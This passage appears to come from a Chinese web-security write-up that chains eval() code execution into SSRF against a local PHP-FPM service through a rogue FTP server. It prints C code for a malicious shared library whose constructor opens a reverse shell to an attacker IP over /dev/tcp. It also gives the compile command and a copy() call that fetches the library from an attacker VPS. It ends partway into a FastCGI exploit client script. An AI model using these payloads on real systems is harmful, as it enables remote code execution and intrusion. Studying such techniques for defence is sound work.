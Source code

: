 好了，既然我们可以通过 eval() 执行任意代码，那我们便可以构造恶意代码进行 SSRF，利用 SSRF 攻击本地的 PHP-FPM。我们可以通过在 vps 上搭建恶意的 ftp，骗取目标主机将 payload 转发到自己的 9001 端口上，从而实现攻击 PHP-FPM 并执行命令，原理上文已经讲过了。

首先使用以下 c 文件 hpdoger.c 编译一个恶意的 .so 扩展，这里直接用网上亘古不变的写法：

```plain
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1'");
}
```

通过 shared 命令编译：

```plain
gcc hpdoger.c -fPIC -shared -o hpdoger.so
```

[![](assets/1698897074-dea91a158b9d1001fb69cdf76bb694f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134749-960b1ee2-b2e5-1.png)

然后将生成的 hpdoger.so 上传到目标主机（我这里上传到 /tmp 目录，可以使用 `copy('http://vps/hpdoger.so','/tmp/hpdoger.so')` ）

然后简单修改以下脚本（根据 [fcgi\_jailbreak.php](https://github.com/wofeiwo/webcgi-exploits/blob/master/php/Fastcgi/fcgi_jailbreak.php) 改的）并执行，生成 payload：

```plain
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
 */
class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
```